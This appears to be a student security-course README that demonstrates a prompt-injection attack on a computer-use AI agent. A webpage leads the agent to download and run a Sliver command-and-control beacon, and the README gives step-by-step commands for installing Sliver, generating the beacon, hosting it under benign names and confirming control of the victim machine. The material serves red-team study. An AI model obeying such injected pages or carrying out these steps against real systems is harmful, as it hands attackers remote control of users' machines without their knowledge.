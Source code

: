 # Attack Vector

Extending LLM applications to allow clicking and bash commands opens entirely new avenues of attack for prompt injection. The following instructions outline how LLM computer use can be used to activate attacks that traditionally required some form of social engineering by bypassing the human user while the AI agent is processing a request.

To realise the absurd risk, this demo will allow a remote computer to exicute commands on a victim's machine by using standard promt-injection style attacks combined with a download link (during a plausable user request) to run code on the machine.

### Description of the code:
- Based on the attack vectors explored by the other teammates, the simplest way to achive this attack is through a standard link-initialized phishing attack. Any request that is suseptable to the demonstrated "click-link" attack vector can be made vulnerable to this attack.
- Some light prompt injection before the download link was required to hide the action from the user.

# Reproduction Process:

> [!CAUTION]
> The following procedure invovles open-source "red team" code. Proceed at your own risk.

To begin the process, you will need an apache2 server running at an accessable location.

1. In a quarantined linux enviroment run the following command: `curl https://sliver.sh/install|sudo bash`
2. run `sliver`
3. sliver > `sessions` will list all current sessions. Currently, this list should be empty.

![screenshot](Sliver_start.png)

4. Start up the "victim" machine and start an appication that implements functions using Anthropic's computer use API. In this project, we used a docker enviroment and the demo computer use app provided by Anthropic. The instructions for starting this enviroment can be found in the [main README](https://github.com/zkoenigxd/llm-security/blob/main/README.md).
5. sliver > `generate beacon --mtls **YOUR_SERVER_LOCATION** --os linux` will create an exicutable that will subscribe the victim to the C2 server when the file is downloaded and run.
    - Note: If running both processes on a VM, you will need to attach the VM network adapter to the "Bridged Adapter" to allow accesses between systems (the default setting in Virtual Box only allow the host machine to connect).
    - You can retrive **YOUR_SERVER_LOCATION** with `ip a`.
    - This can be used against any system type by changing the os flag, refernce the [Sliver documentation](https://sliver.sh/) for further usage instructions.
6. This file must then be hosted on a webpage, accessable by a download link.
    - Note: The computer-use "agent" will be more responsive to webpages and files with benign names.
7. Direct the AI to go to the page to download and run the file.
    - An [example page](https://github.com/zkoenigxd/llm-security/blob/main/scenarios/zach_remote_access/sampleAttack.html) which closely mimics the language used in my own testing can be found in the current directory.
    - As mentioned, propting the model to achive this behavior is exlored in other tests.
    - Depending on the enviroment, the bash command may time out (python may need to be downloaded and the computer use system times out bash commands after 120 sec).
        - For demo or lab purposes, it may serve to manually download some dependencies before testing the attack with the AI tool.
        - This attack may perform better or worse depending on the performance of the victim platform.
    - Note: Given the limited capabilities of the current generation of computer use, this attack often fails to succeed without additional user input. It may:
        - Question directions to poorly known webpages
        - Open an app that is not a web browser
        - Fail to click the search bar
        - Miss-click the "Download" button or link (depending on your implementation)
    - Despite the above limitations, it is often able to quickly and without prompting the user download, apply execute permissions, and run the script assuming the link can be asertained.
8. Proof of attack success can be verified with the command sliver > `beacons`
    - The info should display the name of the .exe used for the capture and the user name (by default, this demo's name is "computeruse")
9. Run any command on the victim machine (usage can be found in the [Sliver documentation](https://sliver.sh/) or by running sliver > `help`)

![screenshot](Captured_computer.png)

# Presenatation:
### My contribution to the group project:
- Set up the git and project enviroment.
- Walked the team through running the project and ensured each member had the base project running
- Read and researched the Anthropic computer use documentation and shared the results with the team.
    - Researched AI tool use
    - Researched currently available computer-use apps
    - Discovered attack vectors based on the API's limitations and inherit vulnerabilities.
- Demoed the Command and Control attack vector.

### Code and demonstration of results:
- The small bit of code needed and the description of the process can be found in the current folder and above in this file.

### What was learned:
### How it applies to Computer Systems Security:
### Application areas: 

### Challenges and Lessons Learned
1. Installing and running docker
    - With no prior experience with docker and having just learned the fundamentals of VMs, getting the enviroment set up in a safe way was a major hurtle.
    - It was discovered that running docker on a VM required some special configuartions be made on the host machine, and the performance proved atrocious.
    - After researching the technology, it was discovered that docker enviroments provided adiquite security on the host device for the tests we intended to run.
    - Lesson - always, ALWAYS read the docs of any unfamiliar technology.

# Submission:

Full commented code and the code is clean, formatted.

The README file in the GitHub repository indicates clearly how to easily clone and build/deploy the code. The README file in the GitHub repository clearly indicates what functionality does (and does not, if applicable) work in the final version of the application. Additionally, it should include references to two scholarly papers: one representing prior research, serving as the foundational bedrock for the current study, and another representing contemporary work that acknowledges and builds upon the findings of the current paper. This practice is akin to the methodology of an archeologist, meticulously documenting the lineage of ideas and advancements within the academic landscape.

Any data required to test/demo the application has been provided within the project. Instructors can run the code and reproduce the results shown in the class.